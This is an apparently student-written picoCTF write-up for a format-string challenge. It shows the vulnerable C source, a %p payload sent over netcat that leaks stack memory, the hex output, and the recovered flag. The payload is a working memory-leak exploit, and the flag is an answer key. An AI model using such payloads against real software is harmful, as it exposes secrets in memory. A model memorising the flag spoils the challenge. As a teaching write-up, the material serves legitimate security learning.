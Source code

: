 # Description: 
I'm just copying and pasting with this `program`. What can go wrong? 

You can view source `here`. And connect with it using: `nc saturn.picoctf.net 60610`

This is the program provided:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
# Solution:
After going through the program, it is undeerstood that the lines of code needed to crack this challenge are: 
`scanf("%127s", story);` and the pointer `buf` in function _readflag_. `buf` is a character array pointer which will store the contents of `flag.txt` file.
Since this is a pointer, the format specifier `%p` can be used to print the address of the pointer `buf` in hexadecimal.
so, in the netcat connection, I did this:
```
yasho@DESKTOP-6ND4URA:~$ nc saturn.picoctf.net 55490
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Here's a story -
0xffd50a300xffd50a500x80493460x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x2570250x6f6369700x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x395f6b630x303666350x7d3731360xfbad20000xd9240b00(nil)0xeac2b9900x804c0000x8049410(nil)0x804c0000xffd50b180x80494180x20xffd50bc40xffd50bd0(nil)0xffd50b30(nil)(nil)0xeaa21ed5
```
I gave %p as input (128 times since the story's length is 128).
Now I converted this address to its raw value i.e. UTF-8 using codechef. 
Output:
```
ÿÕ
0ÿÕ
PI4p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%%p%ocip{FTCk43L_gn1g4lFff0_4tS_9_kc06f5}716û­ 
```
Can see that the flag is present but in a werid way. It follows the pattern of reversing every block of 4 characters. So I manually modified this string accordingly.

`ocip{FTCk43L_gn1g4lFff0_4tS_9_kc06f5}716` ----> `picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}`
